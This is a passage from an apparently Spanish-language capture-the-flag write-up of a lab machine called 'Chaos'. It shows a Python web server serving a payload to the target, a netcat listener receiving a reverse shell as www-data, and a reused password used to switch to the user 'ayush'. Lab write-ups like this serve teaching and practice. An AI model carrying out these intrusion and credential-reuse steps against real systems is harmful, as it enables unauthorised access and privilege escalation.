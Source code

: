 ![](/imagenes/Chaos/chaos19.png)

En nuestro servidor en python:
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.120 - - [17/Feb/2023 16:26:33] "GET / HTTP/1.1" 200 -
```

Y en el netcat:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.120] 59318
bash: cannot set terminal process group (1069): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ 
```
Tenemos acceso al sistema.

Pero no tenemos acceso a las carpetas, pero recordamos que tenemos una credencial de ayush, vamos a ver si la han reutilizado:
```
www-data@chaos:/home$ su ayush
Password: 
ayush@chaos:/home$ 
```
